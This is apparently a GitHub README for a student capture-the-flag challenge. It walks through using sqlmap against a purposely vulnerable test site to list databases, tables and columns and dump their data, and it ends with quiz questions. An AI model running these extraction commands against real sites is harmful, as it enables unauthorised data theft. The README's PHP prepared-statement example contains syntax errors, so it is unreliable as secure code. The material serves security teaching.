 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   You can either use the url directly to begin the attack:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   # Or you can:
   * Intercept the request with BurpSuite (or whatever you prefer)
   * Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection 
  * Reference: https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/
  * SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. 
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered
  * 1.Which DBMS is being used and what version is it?
  * 2.What are the names of the two databases?
  * 3.How many tables are there in the database 'acuart'?
  * 4.What kind of data type is being stored in the 'adsec' column of the table 'artists'
  * 5.What is the 1st value of 'aname' column of the table 'artists' and the database 'acuart'
